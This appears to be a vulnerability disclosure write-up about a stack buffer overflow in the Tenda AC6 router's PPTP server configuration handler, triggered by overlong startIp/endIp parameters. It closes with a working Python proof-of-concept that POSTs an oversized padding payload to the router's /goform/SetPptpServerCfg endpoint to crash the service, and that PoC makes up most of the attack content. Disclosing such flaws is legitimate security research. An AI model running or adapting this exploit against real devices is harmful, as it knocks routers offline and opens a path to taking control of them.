


# AC6_Stack_overflow


#### Describe

​	The vulnerability lies in the setting of PPTP service / goform / setpptpservercfg in Tenda AC6 httpd component. If the length of startip and endip parameters is not well limited, it will lead to stack overflow.

#### Detail

​	Https form formSetPPTPServer fuction in IDA view




​	Due to the pointer defined in the function, the values of the startip parameter and endip parameter will be stored on the stack, and the length is not limited, resulting in a vulnerability

#### TEST



​		Grab HTTP packets


 	Parameterize request 


​	can see the service crash


#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"
payload = "a"*0x9c+"bbbb"
data={
	"serverEn":"1",
	"startIp":"100.0.0.100",
	"endIp":"100.0.0.200"+payload,
	"mppe":"1",
	"mppeOp":"40"
}
headers={
	"Host":"1192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/pptp_server.html?random=0.7706434999271096&",
	"Upgrade-Insecure-Requests":"1"
}
response = requests.request("POST", url, headers=headers, data=data)
```


